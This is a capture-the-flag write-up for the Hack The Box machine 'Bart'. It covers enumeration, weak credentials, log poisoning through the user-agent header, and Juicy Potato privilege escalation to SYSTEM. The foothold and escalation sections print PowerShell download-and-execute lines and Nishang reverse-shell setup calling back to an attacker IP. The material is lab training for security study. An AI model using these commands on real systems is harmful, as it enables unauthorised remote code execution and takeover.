# Bart Writeup w/o Metasploit



## Reconnaissance <a id="f58b"></a>

Run the [nmapAutomato](https://github.com/rkhal101/nmapAutomator)r script to enumerate open ports and services running on those ports.

```text
./nmapAutomator.sh 10.10.10.81 All
```

* **All**: Runs all the scans consecutively.

```text
Running all scans on 10.10.10.81Host is likely running Windows---------------------Starting Nmap Quick Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-06 20:20 EST
Nmap scan report for bart.htb (10.10.10.81)
Host is up (0.28s latency).
Not shown: 999 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  httpNmap done: 1 IP address (1 host up) scanned in 30.12 seconds
---------------------Starting Nmap Basic Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-06 20:21 EST
Nmap scan report for bart.htb (10.10.10.81)
Host is up (0.13s latency).PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.85 seconds
----------------------Starting Nmap UDP Scan----------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-06 20:21 EST
Nmap scan report for bart.htb (10.10.10.81)
Host is up.
All 1000 scanned ports on bart.htb (10.10.10.81) are open|filteredNmap done: 1 IP address (1 host up) scanned in 748.14 seconds
---------------------Starting Nmap Full Scan----------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-06 20:33 EST
Initiating SYN Stealth Scan at 20:33
Scanning bart.htb (10.10.10.81) [65535 ports]
....
Nmap scan report for bart.htb (10.10.10.81)
Host is up (0.050s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http---------------------Starting Nmap Vulns Scan---------------------
                                                                                                                                                                               
Running CVE scan on basic ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-06 20:41 EST
Nmap scan report for bart.htb (10.10.10.81)
Host is up (0.044s latency).PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.50 seconds
```

We have one port open.

* **Port 80:** running Microsoft IIS httpd 10.0

Before we move on to enumeration, let’s make some mental notes about the scan results.

* Ports 80 is running Microsoft IIS version 10.0, so it’s very likely that the underlying operating system is Windows 10.
* I terminated _nmapAutomator_ after noticing that the URL [http://10.10.10.81](http://10.10.10.81/) redirects to [http://forum.bart.htb/](http://forum.bart.htb/). Since the hostname is not in our _/etc/hosts_ file, the _gobuster_ and _nikto_ scans won’t find anything.

## Enumeration <a id="a01a"></a>

Let’s add the domain name and hostname in the _/etc/hosts_ file.

```text
10.10.10.81    bart.htb forum.bart.htb
```

Then visit _bart.htb_ in the browser. This automatically redirects us to _forum.bart.htb_.


Viewing the page source, we don’t find anything useful. There is a comment that includes a developer name. We’ll keep that in mind in case that comes in handy later.



All the links on the page are static. Next, run _gobuster_ to enumerate directories.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://forum.bart.htb
```

* **dir:** directory mode
* **-w:** wordlist
* **-u:** URL

We get back the following result showing that it found no directories.

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://forum.bart.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/06 20:56:58 Starting gobuster
===============================================================
===============================================================
2020/03/06 21:13:13 Finished
===============================================================
```

Next, run _gobuster_ to enumerate directories on _bart.htb_.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u bart.htb
```

We get back the following result.

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://bart.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/06 21:07:58 Starting gobuster
===============================================================
Error: the server returns a status code that matches the provided options for non existing urls. http://bart.htb/794be4c2-52b6-44e8-833c-00d56f843a78 => 200. To force processing of Wildcard responses, specify the '--wildcard' switch
```

We’re not sure what happened there, so let’s forward all the traffic to Burp and intercept the response that _gobuster_ is erring on. To do that, perform the following steps.

* In Burp, visit _Proxy_ &gt; _Options_ &gt; _Proxy Listeners_ &gt; _Add_. In the _Binding_ tab, set the _Bind port_ to _8081_ and and in the _Request Handling_ tab, set the _Redirect to host_ option to _bart.htb_ and the **Redirect to Port** option to _80_. Make sure to select the newly added listener once you’re done.

Then run gobuster again.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://localhost:8081
```

Intercept the request and send it to _Repeater_.


It seems like when gobuster is sending a random directory string, the application is always responding with a 200 OK status code. Click on _Render_ to view the HTML page.


Since a non-existing directory gives us a 200 status code, let’s tweak gobuster to show us responses with status codes other than 200.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s "204,301,302,307,401,403" -u bart.htb
```

* **-s:** positive status codes

We get back the following result.

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://bart.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/06 21:22:12 Starting gobuster
===============================================================
/forum (Status: 301)
/monitor (Status: 301)
/Forum (Status: 301)
/Monitor (Status: 301)
```

The directories _/forum_ and _/Forum_ lead to the [_http://forum.bart.htb_](http://forum.bart.htb/) page. The directory _/monitor_ leads us to a different page.


Viewing the page source doesn’t give us anything useful. Click on the _Forgot password_ button and enter a random username. We get back the following verbose error message telling us that the username does not exist in the system.



Next, let’s try the “_harvey_” name we found in the source code.


Good! The username “_harvey_” does exist. Let’s try his last name “_potter_” as a password.


We’re in! Viewing the page source, we see that all the links lead to the hostname _monitor.bart.htb_. Let’s add that to our _/etc/hosts_ file.

```text
10.10.10.81    bart.htb forum.bart.htb monitor.bart.htb
```

Click on _Status_ &gt; _Internal Chat_. We see another hostname.



Add it to the _/etc/hosts_ file and visit the page.


We get another login form. Let’s test out the credentials we already have _harry_/_potter_.



It doesn’t work. It also indicates that the password has to be at least 8 characters and to make matters worse there is no indication that “_harry_” is even an existing username in the system. Since 8 character passwords take a long time to brute force, there has to be another way.

Run gobuster on the new page.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u internal-01.bart.htb/simple_chat
```

We get back the following result.

```text
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://internal-01.bart.htb/simple_chat
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/06 22:16:48 Starting gobuster
===============================================================
/media (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/js (Status: 301)
/Media (Status: 301)
/CSS (Status: 301)
/JS (Status: 301)
/MEDIA (Status: 301)
/Includes (Status: 301)
```

Nothing useful. After a few more frustrating gobuster scans, I decided to google the application and found this [github page](https://github.com/magkopian/php-ajax-simple-chat). This includes the source code that the application is based on. There’s a _register.php_ page. Let’s try and visit that.


We get redirected to _register\_form.php_. Let’s view the [source code](https://github.com/magkopian/php-ajax-simple-chat/blob/master/simple_chat/register.php) of the script. It looks like it takes in a username and password. Let’s craft the request in Burp.



We get a 302 status code which is a good sign. Let’s try and log in with our newly created credentials.



We’re in! View the source code.


Visit the _log.php_ link.


It looks like it logs the username and user agent of the incoming request. I tried injecting code into the username, however, that was not reflected back in the logs. The user-agent on the other hand is vulnerable.



The above requests adds a ‘_cmd_’ parameter to the request that executes system commands. Let’s test it out.



Perfect, we finally have code execution!

## Initial Foothold <a id="08ad"></a>

Let’s use that to send a reverse shell to our attack machine.

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Then going back to the request, add the following to the _cmd_ parameter. Don’t forget to URL encode it \(CTRL + U\).

```text
powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.45:5555/shell.ps1')
```

Send the request. We get a shell!


Looking through the files of the web application, we find Harvey’s database credentials.



He might of reused them for his system account _h.potter_. We can’t use RunAs in this shell, so we have to first save the password as a secure string and then use the credentials to send a PowerShell reverse shell back to our attack machine. This is explained in detail in the [Chatterbox ](https://medium.com/@ranakhalil101/hack-the-box-chatterbox-writeup-w-o-metasploit-c8421ac09318?source=friends_link&sk=a06e59823adf327c3f29ef739e090810)writeup. Unfortunately, this does not work. So we’ll try to escalate our privileges to Administrator instead.

## Privilege Escalation <a id="c86d"></a>

Run the systeminfo command.

```text
PS C:\Users\Public\Downloads> systeminfoHost Name:                 BART
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.15063 N/A Build 15063
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00330-80110-20834-AA869
Original Install Date:     24/09/2017, 19:35:51
System Boot Time:          07/03/2020, 01:22:12
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,165 MB
Virtual Memory: Max Size:  3,519 MB
Virtual Memory: Available: 2,320 MB
Virtual Memory: In Use:    1,199 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.81
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

The box is running a Windows 10 Pro 64-bit operating system. Let’s first check the system privileges that are enabled for this user.


_SetImpersonatePrivilege_ is enabled so we’re very likely to get SYSTEM using [Juicy Potato](https://github.com/ohpe/juicy-potato). Users running the SQL server service or the IIS service usually have these privileges enabled by design. This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to SYSTEM.

Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.45:5555/JuicyPotato.exe', 'C:\Users\Public\Downloads\jp.exe')
```

Run the executable file to view the arguments it takes.



It requires 3 mandatory arguments.

* **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.

First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.

```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.45:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.

```text
(new-object net.webclient).downloadfile('http://10.10.14.45:5555/shell.bat', 'C:\Users\Public\Downloads\shell.bat')
```

Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
PS C:\Users\Public\Downloads> ./jp.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
COM -> recv failed with error: 10038
```

It fails to escalate privileges with the default CLSID. We can get the list of CLSIDs on our system using [this script](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). However, let’s first manually try one of the Windows 10 Pro CLSIDs available on the Juicy Potato [github repo](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro).



Rerun the Juicy Potato executable with the above specific CLSID.

```text
PS C:\Users\Public\Downloads> ./jp.exe -t * -p shell.bat -l 4444 -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
Testing {7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381} 4444
......
[+] authresult 0
{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK
```

We get a shell back with SYSTEM privileges!


Grab the _user.txt_ flag.


Grab the _root.txt_ flag.


## Lessons Learned <a id="146b"></a>

To gain an initial foothold on the box we exploited three vulnerabilities.

1. Verbose message on the login form. The error message allowed us to enumerate a valid username. Therefore, whenever possible, always configure the application to use less ****verbose error messages. A better error message would be “The username or password is incorrect”.
2. Weak login credentials. The developer was using his last name as a password. He should have instead used a sufficiently long password that is difficult to crack.
3. Log file poisoning. Since the log file was storing the user agent \(user controlled data\) without any input validation, we were able to inject malicious code onto the server. This could have been easily avoided if the developer validated user input.

To escalate privileges we didn’t necessarily exploit a vulnerability but an intended design of how Microsoft handles tokens. So there’s really not much to do there but put extra protections in place for these sensitive accounts.

